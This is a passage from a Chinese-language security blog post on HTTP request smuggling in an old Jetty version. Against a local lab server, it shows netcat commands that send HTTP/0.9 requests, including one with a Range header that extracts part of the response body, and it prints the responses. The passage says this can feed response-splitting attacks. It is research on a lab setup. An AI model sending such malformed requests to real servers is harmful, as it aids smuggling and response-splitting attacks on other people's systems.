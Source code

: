 
对于 CVE-2017-7658 我们就不再探究了，因为之前也提过了，我们主要来看另外两个比较有意思的地方。

### HTTP/0.9

环境依旧可以使用我构建的 [jetty lab 环境](https://github.com/ZeddYu/HTTP-Smuggling-Lab/tree/master/jetty)，然后我们用如下方式发送一个标准的 HTTP/0.9 请求：

```bash
printf 'GET /?test=4564\r\n'|nc -q 1 127.0.0.1 8994
```

得到一个 400 响应：

```bash
HTTP/1.1 400 HTTP/0.9 not supported
Content-Type: text/html;charset=iso-8859-1
Content-Length: 65
Connection: close
Server: Jetty(9.4.9.v20180320)

<h1>Bad Message 400</h1><pre>reason: HTTP/0.9 not supported</pre>
```

接着我们加上版本标识：

```bash
printf 'GET /?test=4564 HTTP/0.9\r\n\r\n'|nc -q 1 127.0.0.1 8994
```

虽然这是 HTTP/0.9 不支持的格式，但是也会有意外的收获，得到一个 200 响应：

```bash
<head>
<title>Sample "Hello, World" Application</title>
</head>
<body bgcolor=white>

<table border="0">
<tr>
...
```

这里的响应没有 headers，只有 body，也就是这个请求被 HTTP/0.9 进行了解析。

而且更有意思的是，添加上 HTTP/0.9 不支持的 headers 也会有意外的收获，这里我们添加一个提取响应包部分内容的 header：

```bash
printf 'GET /?test=4564 HTTP/0.9\r\n'\
'Range: bytes=36-42\r\n'\
'\r\n'\
|nc -q 1 127.0.0.1 8994

, World
```

会发现 body 内容被我们进行了提取，结合我们上文提到的结合 HTTP Versio 进行的 HTTP Response Splitting，我们可以进行各种花式攻击

### Chunk size attribute truncation
